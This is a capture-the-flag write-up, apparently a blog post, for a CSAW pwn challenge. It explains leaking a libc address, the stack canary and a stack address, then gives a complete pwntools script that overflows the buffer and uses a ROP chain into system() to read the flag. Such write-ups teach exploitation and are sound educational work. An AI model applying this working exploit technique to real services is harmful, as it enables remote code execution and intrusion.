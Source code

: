 
Hello,

In this task we were given a binary file with NX activated, Canary present and ASLR enabled on the remote server.

The first function prints the address of puts function in libc. (-0x500).

The second function prints the canary and a part of a stack address (4 bytes).

With Libc given in addition to all these leaked informationwe can rebuild the process layout in memory and build our payload.

Below is the exploit I wrote to pwn the service, the script process as follows:


- Leak puts() address.
- Calculate system() address.
- Leak Canary value.
- Leak a Stack address.
- Calculate the receive buffer address.
- Place the command to be executed in recieve buffer.
- Place the canary
- ROP to system with recieve buffer address as argument.
- Put all together
- Enjoy !

<!--more-->
  
My exploit:

```python
from pwn import *
from struct import pack
from struct import unpack
import time


r = remote("pwn.chal.csaw.io", 8002)

r.recvuntil(">")
r.send("1\n")

r.recv()
puts =  int(r.recv()[:14],16) + 1280

print "[+] @puts : %x"%puts
r.send("2\n")

print r.recvuntil(">")

r.send("A"*310+"\n")
stack = r.recv()
print stack.encode("hex")
canary = stack[312:312+8]

print "[+] canary = "+canary.encode("hex")

print r.recvuntil(">")
r.send("2\n")

print r.recv()
print r.recv()


stackadd = 0x7ffc00000000 | unpack("I",stack[-4:])[0]

print "[+] stack add %x" %stackadd

#calc system address
libc = ELF('libc-2.19.so')
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_libc =  libc.symbols['puts']
print "[+] @puts in libc : %x"%puts_libc
deltasystem = libc.symbols['system'] - puts_libc
#deltasystem = -170752
print "[+] delta system: "+ str(deltasystem)

system = pack("<Q", puts + deltasystem)

print "[+] @system: %x"%(puts + deltasystem)

recvbuf = stackadd - 368
print "[+] recvbuf: %x"%recvbuf

junk = pack("<Q", 0xdeadbeef)
pop_rdi = 0x4012e3
#pop_rdi = 0xdeadbeef

cmdadd = pack("<Q",recvbuf + 64)

#all together
cmd = "D"*64
cmd +="cat flag.txt 1>&4 2>&4"+   "\x00"
payload = cmd+"C"*(312-len(cmd))+canary+"A"*8+pack("<Q",pop_rdi)+cmdadd+system+junk+"\n"
r.send(payload)
print r.recv()
print r.recv()
#r.interactive()

```

Cheers !
